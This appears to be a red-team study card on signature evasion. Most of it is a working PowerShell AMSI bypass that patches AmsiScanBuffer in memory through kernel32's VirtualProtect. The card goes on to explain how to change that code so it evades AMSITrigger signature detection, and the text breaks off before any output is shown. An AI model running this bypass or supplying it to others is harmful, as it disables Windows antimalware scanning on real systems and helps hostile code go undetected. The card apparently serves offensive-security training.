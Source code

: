 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/signature-evasion-code-blocks/","tags":["red-team/resource"]}
---
```


~ [[cards/red-team/Signature Evasion\|Signature Evasion]]

## Static Code-Based Signature Code Block
---

```powershell
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

### The problem and answer
---
Testing the given `.ps1` should show us the problematic code:

![Signature Evasion Code Blocks.png](/img/user/cards/red-team/images/Signature%20Evasion%20Code%20Blocks.png)

We only need to change lines after `$Kernel32 ...` line:

![Signature Evasion Code Blocks-1.png](/img/user/cards/red-team/images/Signature%20Evasion%20Code%20Blocks-1.png)
Output against AMSITrigger:
